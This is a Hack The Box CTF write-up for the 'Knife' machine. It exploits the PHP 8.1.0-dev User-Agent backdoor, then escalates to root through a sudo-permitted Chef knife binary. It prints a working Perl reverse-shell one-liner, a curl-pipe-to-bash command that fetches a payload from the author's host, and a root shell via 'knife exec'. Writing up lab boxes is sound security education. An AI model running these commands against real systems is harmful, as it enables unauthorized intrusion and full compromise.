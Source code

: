 ```yaml
---
layout: single
sitemap: true
title: "Hack the box writeup [Knife]"
categories:
  - Blog
tags:
  - CTF
  - HTB
  - writeup
---
```


Knife was a easy box on HTB. It's was rated as more like a CTF styled box. It took me few hours to get root, but it was fun box. Lets walkthrough on how I approached to root this box. 

The IP for the Knife box is `10.10.10.242` so adding it to hosts file as `knife.htb`

```bash
sudo echo -n 10.10.10.242  knife.htb >> /etc/hosts
```
The first thing to run is a nmap scan to know what services are listening on this box.

```bash
nmap -sC -sV -p- -oN  ports.txt knife.htb
Nmap scan report for knife.htb (10.10.10.242)
Host is up (0.069s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 124.19 seconds
```
So, we got two ports 22 and 80 open. I started `dirb` on the port 80 while taking a look at it in browser. It had some medical website look to which nothing seemed interesting. Dirbuster came back with two hits in which nothing looked useful.
```
---- Scanning URL: http://knife.htb/ ----
+ http://knife.htb/index.php (CODE:200|SIZE:5815)                                                                                     
+ http://knife.htb/server-status (CODE:403|SIZE:274)            
```
 Now tried looking at the headers of the http server running on port-80. We can use a browser, curl or burpsuite anything for it.
```
< HTTP/1.1 200 OK
< Date: Sun, 30 May 2021 17:04:41 GMT
< Server: Apache/2.4.41 (Ubuntu)
< X-Powered-By: PHP/8.1.0-dev
< Vary: Accept-Encoding
< Transfer-Encoding: chunked
< Content-Type: text/html; charset=UTF-8
```
Two things in here looks promising which is `Apache/2.4.41` & `PHP/8.1.0-dev`. Searched for Apache exploits for this version, found nothing useful. Than for the PHP version searched for sometime and came across this [exploit](https://packetstormsecurity.com/files/162749/PHP-8.1.0-dev-Backdoor-Remote-Command-Injection.html). 

For this exact PHP version if the User-Agent is passed as `zerodiumsystem` then we can execute code without any authentication on the server. This is a part of a [recent attack](https://www.bleepingcomputer.com/news/security/phps-git-server-hacked-to-add-backdoors-to-php-source-code/) on php git server in an effort to add backdoor to its codebase. 

Than I used a perl based reverse shell to gain shell on the system using the exploit. 

```perl
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"<IP>:<PORT>");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```
The command to gain reverse shell looked like this for me. 

```
python exploit.py -u http://knife.htb/ -c 'curl http://<my_IP>:8080/rs.sh | bash '
```
This will fetch the reverse shell perl command from my server and execute it on the box giving us the shell. 
```bash
id
uid=1000(james) gid=1000(james) groups=1000(james)
```
We got a reverse shell as `james` user and so we got the user flag in the home directory. 

### Gaining root shell

First of all I tried checking user by viewing the `/etc/passwd` file but nothing interesting there. Now tried running `sudo -l` to checked the allowed commands for sudo and got an interesting entry.

```
User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```
James user can run this process called `knife` as root without any password. The box name was a hint here. Tried to check what knife process can do.
```bash
knife -h
Chef Infra Client: 16.10.8
```
This was a standard knife command for the Chef Infra client. I quickly googled it and open its documentation at https://docs.chef.io/workstation/knife/ .
While going through the subcommands for knife one commands was found useful to us. 

*Use the **knife exec** subcommand to execute Ruby scripts in the context of a fully configured Chef Infra Client.* 

With little bit of playing with this command was able to finally create the final command to get the root shell. 
```bash
sudo knife exec -E 'exec "/bin/sh -i" '
```
This will spawn a bash shell via ruby which executes as root process. Hence rooted the `knife ` box. The root flag can be found at `/root/root.txt` 

```bash
id;whoami;hostname
uid=0(root) gid=0(root) groups=0(root)
root
knife
```

Happy Hacking !! 🙂
